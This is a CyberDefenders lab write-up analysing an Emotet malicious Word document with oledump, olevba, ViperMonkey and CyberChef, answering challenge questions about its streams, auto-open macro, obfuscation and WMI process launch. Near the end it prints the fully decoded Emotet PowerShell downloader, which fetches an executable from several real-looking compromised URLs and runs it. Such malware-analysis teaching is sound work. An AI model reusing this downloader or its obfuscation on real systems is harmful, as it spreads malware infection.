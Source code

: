 ```yaml
---
title: "MalDoc101 (Document Analysis)"
tags: ['CyberDefenders']
date: 2021-04-26
---
```


[https://cyberdefenders.org/labs/51](https://cyberdefenders.org/labs/51)

## Contents

- [Tools Used](#tools-used)
- [1. Multiple streams contain macros in this document. Provide the number of highest one.](#1-multiple-streams-contain-macros-in-this-document-provide-the-number-of-highest-one)
- [2. What event is used to begin the execution of the macros?](#2-what-event-is-used-to-begin-the-execution-of-the-macros)
- [3. What malware family was this maldoc attempting to drop?](#3-what-malware-family-was-this-maldoc-attempting-to-drop)
- [4. What stream is responsible for the storage of the base64-encoded string?](#4-what-stream-is-responsible-for-the-storage-of-the-base64-encoded-string)
- [5. This document contains a user-form. Provide the name?](#5-this-document-contains-a-user-form-provide-the-name)
- [6. This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?](#6-this-document-contains-an-obfuscated-base64-encoded-string--what-value-is-used-to-pad--or-obfuscate--this-string)
- [7. What is the purpose of the base64 encoded string?](#7-what-is-the-purpose-of-the-base64-encoded-string)
- [8. What WMI class is used to create the process to launch the trojan?](#8-what-wmi-class-is-used-to-create-the-process-to-launch-the-trojan)
- [9. Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.](#9-multiple-domains-were-contacted-to-download-a-trojan-provide-first-fqdn-as-per-the-provided-hint)

## Tools Used

1. oledump
2. olevba
3. vmonkey (ViperMonkey)
4. LibreOffice
5. CyberChef
6. sha256sum

## 1. Multiple streams contain macros in this document. Provide the number of highest one.

We can use `oledump` to dump all the streams:

```bash
$ oledump.py sample.bin
1:       114 '\x01CompObj'
2:      4096 '\x05DocumentSummaryInformation'
3:      4096 '\x05SummaryInformation'
4:      7119 '1Table'
5:    101483 'Data'
6:       581 'Macros/PROJECT'
7:       119 'Macros/PROJECTwm'
8:     12997 'Macros/VBA/_VBA_PROJECT'
9:      2112 'Macros/VBA/__SRP_0'
10:       190 'Macros/VBA/__SRP_1'
11:       532 'Macros/VBA/__SRP_2'
12:       156 'Macros/VBA/__SRP_3'
13: M    1367 'Macros/VBA/diakzouxchouz'
14:       908 'Macros/VBA/dir'
15: M    5705 'Macros/VBA/govwiahtoozfaid'
16: m    1187 'Macros/VBA/roubhaol'
17:        97 'Macros/roubhaol/\x01CompObj'
18:       292 'Macros/roubhaol/\x03VBFrame'
19:       510 'Macros/roubhaol/f'
20:       112 'Macros/roubhaol/i05/\x01CompObj'
21:        44 'Macros/roubhaol/i05/f'
22:         0 'Macros/roubhaol/i05/o'
23:       112 'Macros/roubhaol/i07/\x01CompObj'
24:        44 'Macros/roubhaol/i07/f'
25:         0 'Macros/roubhaol/i07/o'
26:       115 'Macros/roubhaol/i09/\x01CompObj'
27:       176 'Macros/roubhaol/i09/f'
28:       110 'Macros/roubhaol/i09/i11/\x01CompObj'
29:        40 'Macros/roubhaol/i09/i11/f'
30:         0 'Macros/roubhaol/i09/i11/o'
31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
32:        40 'Macros/roubhaol/i09/i12/f'
33:         0 'Macros/roubhaol/i09/i12/o'
34:     15164 'Macros/roubhaol/i09/o'
35:        48 'Macros/roubhaol/i09/x'
36:       444 'Macros/roubhaol/o'
37:      4096 'WordDocument'
```

The highest VBA macro is number 16.

## 2. What event is used to begin the execution of the macros?

`olevba` is a good tool for getting more information about macros. I've cropped the output.

```bash
$ olevba sample.bin

[..]
+----------+--------------------+---------------------------------------------+
|Type      |Keyword             |Description                                  |
+----------+--------------------+---------------------------------------------+
|AutoExec  |Document_open       |Runs when the Word or Publisher document is  |
|          |                    |opened                                       |
[..]
```

Alternatively, we can open the malicious document and view (edit) the macro. I did so using LibreOffice Writer.

![cyberdefenders-maldoc101-0.png](/images/old/cyberdefenders-maldoc101-0.png)

## 3. What malware family was this maldoc attempting to drop?

One easy way is to compare the filehash to online databases such as URLhaus. Otherwise I'd have to reverse-engineer the script, decipher the functionality, and cross-reference that with known malware.

```bash
$ sha256sum sample.bin
d50d98dcc8b7043cb5c38c3de36a2ad62b293704e3cf23b0cd7450174df53fee  sample.bin
```

![cyberdefenders-maldoc101-1.png](/images/old/cyberdefenders-maldoc101-1.png)

Looks like we're dealing with Emotet.

## 4. What stream is responsible for the storage of the base64-encoded string?

We have the list of streams in question 1, but which one is it? Going back to the output we got from `olevba`, and looking through the streams, we can see there is one very long string (note I've cropped the middle out):

```bash
-------------------------------------------------------------------------------
VBA FORM STRING IN 'sample.bin' - OLE stream: 'Macros/roubhaol/i09/o'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
ï¿½p2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fqe2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fqh2342772g3&*gs7712ffvs626fqeL2342772g3&*gs7712ffvs626fqL2342772g3&*gs7712ffvs626fq 2342772g3&*gs7712ffvs626fq-2342772g3&*gs7712ffvs626fqe[..]2342772g3&*gs7712ffvs626fqAHUAbA2342772g3&*gs7712ffvs626fqBmAGkA2342772g3&*gs7712ffvs626fqZQByAD2342772g3&*gs7712ffvs626fq0AJwBm2342772g3&*gs7712ffvs626fqAG8AcQ2342772g3&*gs7712ffvs626fqB1AGwA2342772g3&*gs7712ffvs626fqZQB2AG2342772g3&*gs7712ffvs626fqMAYQBv2342772g3&*gs7712ffvs626fqAGoAJw2342772g3&*gs7712ffvs626fqA=
-------------------------------------------------------------------------------
```

It ends with `=`, which suggests it's base64 encoded. Checking our list of streams for `Macros/roubhaol/i09/o`, we find it's number 34.

## 5. This document contains a user-form. Provide the name?

From the screenshot in 2, we can see the form - `roubhaol`.

## 6. This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?

If we look carefully at the base64 string above (also use the hint from the challenge...) we can see there is a regularly-repeated string: `2342772g3&*gs7712ffvs626fq`.

We can also look at the actual VBA script in LibreOffice. 

There is line 43, which `Split`s the string based on that value:

![cyberdefenders-maldoc101-2.png](/images/old/cyberdefenders-maldoc101-2.png)

There's also this on line 10:

```bash
Dhaothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
```

Deleting the padding and we get:

```bash
haothkoebtheil = "winmgmt" + gooykadheoj + ":win32_" + roubhaol.joefwoefcheaw + "rocess"
```

If we ignore those variables we get `winmgmt[]:win32_[]rocess`, which leads us on to the next question.

## 7. What is the purpose of the base64 encoded string?

We can run ViperMonkey to do some automated analysis of the file:

```bash
$ vmonkey -s sample.bin -p -o vmonkey_s.txt
```

ViperMonkey errors out quite a bit, but I got some useful information with `-s`, which strips out useless VB code (the `-p -o` is for `tee` and outputting to a file). `-c` for IOCs didn't give much before erroring out, same as no argument. I also used `-e`, which attempts to extract expressions. It also errored out.

Opening this in a graphical editor (to avoid line wrapping), we get some interesting information:

![cyberdefenders-maldoc101-3.png](/images/old/cyberdefenders-maldoc101-3.png)

`Win32_Process` is a well-known WMI class, and (as we can see above) is often related to PowerShell (in this case with `-e`, meaning encoded command). This is our answer.

Note this is also similar to what we found in question 6 - it seems `roubhaol.joefwoefcheaw` = P.

## 8. What WMI class is used to create the process to launch the trojan?

See the previous question.

## 9. Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.

Let's dig into that encoded PowerShell command. CyberChef will decode it:

![cyberdefenders-maldoc101-4.png](/images/old/cyberdefenders-maldoc101-4.png)

And gives us this:

```bash
$liechrouhwuw='vuacdouvcioxhaol';[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';$deichbeudreir = '337';$quoadgoijveum='duuvmoezhaitgoh';$toehfethxohbaey=$env:userprofile+'\'+$deichbeudreir+'.exe';$sienteed='quainquachloaz';$reusthoas=.('n'+'ew-ob'+'ject') nEt.weBclIenT;$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
```

It's still a but obfuscated, but we can easily see the URLs, and some is easily deobfuscated (e.g. `'Get-'+'Ite'+'m'` = `'Get-Item'`).

Let's look on URLhaus for one of these URLs:

![cyberdefenders-maldoc101-5.png](/images/old/cyberdefenders-maldoc101-5.png)